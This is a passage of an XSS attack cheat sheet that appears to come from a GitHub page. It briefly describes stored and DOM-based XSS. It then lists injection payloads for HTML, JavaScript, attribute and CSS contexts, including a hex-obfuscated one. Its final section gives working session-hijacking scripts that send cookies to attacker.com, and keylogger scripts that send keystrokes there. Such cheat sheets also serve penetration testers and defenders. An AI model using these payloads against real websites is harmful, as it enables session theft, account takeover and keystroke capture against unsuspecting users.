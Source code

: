   - **Stored XSS**
    - Payload is stored on the target server (database, log files, etc.)
    - Malicious script activates when users view affected page
    - More dangerous as it doesn't require victim interaction with attacker
    - Common in: comments, user profiles, forum posts, product reviews
    - Detection: Submit benign identifier, verify persistence across sessions/users

  - **DOM-based XSS**
    - Vulnerability exists in client-side JavaScript
    - Payload is processed by the DOM environment
    - Server response may be completely benign
    - Commonly exploits: `document.location`, `document.URL`, `document.referrer`
    - Detection: Monitor DOM modifications using browser dev tools
    - Source vs. sink testing (track data flow from sources to sinks)

- **XSS Contexts and Payloads**
  - **HTML Context**
    - Basic: `<script>alert(1)</script>`
    - Tag attributes: `" onmouseover="alert(1)"`
    - Image tags: `<img src=x onerror=alert(1)>`
    - SVG: `<svg onload=alert(1)>`
    - Body tag: `<body onload=alert(1)>`
    - Input fields: `<input autofocus onfocus=alert(1)>`

  - **JavaScript Context**
    - String break: `';alert(1);//`
    - Template literals: `${alert(1)}`
    - JSON injection: `"key":"value","key":alert(1)//"`
    - Event handlers: `onload=alert(1)`
    - Function calls: `function-call(alert(1))`

  - **Attribute Context**
    - Breaking out: `" onmouseover="alert(1)`
    - No quotes needed: `onmouseover=alert(1)`
    - JavaScript URI: `javascript:alert(1)`
    - Data URI: `data:text/html,<script>alert(1)</script>`

  - **CSS Context**
    - Expression: `<style>body{background-image:url('javascript:alert(1)')}</style>`
    - Import: `<style>@import 'javascript:alert(1)';</style>`
    - HEX encoding: `<div style="background:url('&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x31&#x29')"></div>`

- **Exploitation Techniques**
  - **Session Hijacking**
    - `<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>`
    - `<script>new Image().src="https://attacker.com/steal?cookie="+document.cookie;</script>`
    - `<script>navigator.sendBeacon('https://attacker.com/steal', JSON.stringify({cookies:document.cookie}))</script>`

  - **Keylogging**
    - `<script>document.addEventListener('keypress',function(e){fetch('https://attacker.com/log?key='+e.key)})</script>`
    - `<script>var k='';document.onkeypress=function(e){k+=e.key;if(k.length>10)fetch('https://attacker.com/log?keys='+k).then(()=>k='')}</script>`
